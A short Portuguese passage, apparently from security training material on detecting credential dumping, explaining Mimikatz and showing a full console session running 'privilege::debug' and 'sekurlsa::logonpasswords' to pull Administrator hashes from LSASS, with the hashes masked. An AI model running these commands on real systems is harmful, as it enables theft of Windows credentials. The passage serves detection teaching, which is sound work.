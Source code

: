 Outro aspecto crítico da segurança cibernética é detectar atividades de dumping de credenciais. Uma ferramenta amplamente usada para dumping de credenciais é [o Mimikatz](https://github.com/gentilkiwi/mimikatz) , que oferece vários métodos para extrair credenciais do Windows.

Um comando específico, "sekurlsa::logonpasswords", permite o dumping de hashes de senha ou senhas de texto simples acessando o [Local Security Authority Subsystem Service (LSASS)](https://en.wikipedia.org/wiki/Local_Security_Authority_Subsystem_Service) . O LSASS é responsável por gerenciar credenciais de usuário e é um alvo principal para ferramentas de dumping de credenciais como o Mimikatz.

O ataque pode ser executado da seguinte forma.

```cmd-session
C:\Tools\Mimikatz> mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #18362 Feb 29 2020 11:13:36
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::logonpasswords

Authentication Id : 0 ; 1128191 (00000000:001136ff)
Session           : RemoteInteractive from 2
User Name         : Administrator
Domain            : DESKTOP-NU10MTO
Logon Server      : DESKTOP-NU10MTO
Logon Time        : 5/31/2023 4:14:41 PM
SID               : S-1-5-21-2712802632-2324259492-1677155984-500
        msv :
         [00000003] Primary
         * Username : Administrator
         * Domain   : DESKTOP-NU10MTO
         * NTLM     : XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
         * SHA1     : XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX0812156b
        tspkg :
        wdigest :
         * Username : Administrator
         * Domain   : DESKTOP-NU10MTO
         * Password : (null)
        kerberos :
         * Username : Administrator
         * Domain   : DESKTOP-NU10MTO
         * Password : (null)
        ssp :   KO
        credman :
```

Como podemos ver, a saída do comando "sekurlsa::logonpasswords" fornece informações importantes sobre credenciais comprometidas.
